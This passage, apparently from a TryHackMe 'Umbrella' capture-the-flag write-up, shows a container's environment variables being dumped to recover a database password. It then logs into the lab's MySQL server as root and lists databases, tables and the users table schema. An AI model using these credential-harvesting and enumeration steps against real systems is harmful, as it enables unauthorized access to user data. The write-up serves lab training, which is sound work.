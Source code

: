 ```bash
        host     : process.env.DB_HOST,
        user     : process.env.DB_USER,             
        password : process.env.DB_PASS,
        database : process.env.DB_DATABASE
});
<SNIP>
```

We see that in the `app.js` file, the database password is read from the environment variables of the container. We can check this with the `env` command.
```bash
root@5dfa2a52d55a:/usr/src/app# env
HOSTNAME=5dfa2a52d55a
YARN_VERSION=1.22.19
PWD=/usr/src/app
DB_USER=root
<SNIP>
NODE_VERSION=19.3.0
DB_DATABASE=timetracking
DB_PASS=<REDACTED>
_=/usr/bin/env
OLDPWD=/     
```

Once we have the database password we can connect to it and enumerate its content.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Umbrella]
└─$ mysql -h 10.10.143.85 -u root -p --skip-ssl
Enter password:                                
<SNIP>

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| timetracking       |
+--------------------+
5 rows in set (0.323 sec)                                                                                             
MySQL [(none)]> use timetracking
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed                                                                              
MySQL [timetracking]> show tables;
+------------------------+
| Tables_in_timetracking |     
+------------------------+                     
| users                  |                
+------------------------+
1 row in set (0.098 sec)                                                                                 
MySQL [timetracking]> DESC users;
+-------+-------------+------+-----+---------+-------+
| Field | Type        | Null | Key | Default | Extra |
+-------+-------------+------+-----+---------+-------+
| user  | varchar(10) | YES  |     | NULL    |       |
| pass  | varchar(32) | YES  |     | NULL    |       |
| time  | int(11)     | YES  |     | NULL    |       |                                                                                 
```